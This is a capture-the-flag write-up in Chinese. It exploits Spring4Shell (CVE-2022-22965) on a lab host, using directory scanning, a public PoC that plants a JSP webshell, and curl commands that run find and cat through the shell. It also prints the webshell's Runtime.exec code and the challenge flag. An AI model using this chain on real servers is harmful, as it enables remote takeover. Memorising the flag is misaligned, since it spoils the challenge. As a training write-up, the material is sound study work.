 #### Hint
[提示一]
使用Nmap與目錄掃描工具(http://192.168.100.88:???/???/greeting)

[提示二]
AccessLogValve

[提示三]
也許有公開的POC使用?

[提示四]
Webshell + URL Encode

[提示五]
找不到資料?使用linux指令find / -type f –name 來找看看吧
#### Exploit
1. 先用nmap掃Port -> 8888
2. dirsearch看sub folder -> hello
    ```bash
    $ dirsearch -u "http://192.168.100.88:8888"
    ...
    400   795B   http://192.168.100.88:8888/\..\..\..\..\..\..\..\..\..\etc\passwd
    400   795B   http://192.168.100.88:8888/a%5c.aspx
    302     0B   http://192.168.100.88:8888/hello    -> REDIRECTS TO: /hello/
    ...
    ```
3. 得知路徑為http://192.168.100.88:8888/hello/greeting
4. 根據AccessLogValve得知漏洞應該為CVE-2022-22965
5. 直接使用[現成工具](https://github.com/sunnyvale-it/CVE-2022-22965-PoC)達到RCE
    ```bash
    $ python exploit-core.py --url "http://192.168.100.88:8888/hello/greeting" --file shell
    [*] Resetting Log Variables.
    [*] Response code: 200
    [*] Modifying Log Configurations
    [*] Response code: 200
    [*] Response Code: 200
    [*] Resetting Log Variables.
    [*] Response code: 200
    [+] Exploit completed
    [+] Check your target for a shell
    [+] File: shell.jsp
    [+] Shell should be at: http://192.168.100.88:8888/shell.jsp?cmd=id
    $ curl http://192.168.100.88:8888/shell.jsp\?cmd\=find%20/%20-iname%20flag.txt --output -
    /usr/local/share/man/flag.txt
    $ curl http://192.168.100.88:8888/shell.jsp\?cmd\=cat%20/usr/local/share/man/flag.txt --output -
    CSC{FLAG_can_we_cut_to_the_chase?}

    //
    - java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } -
    ```
    記得要注意URL encode
Flag: `CSC{FLAG_can_we_cut_to_the_chase?}1`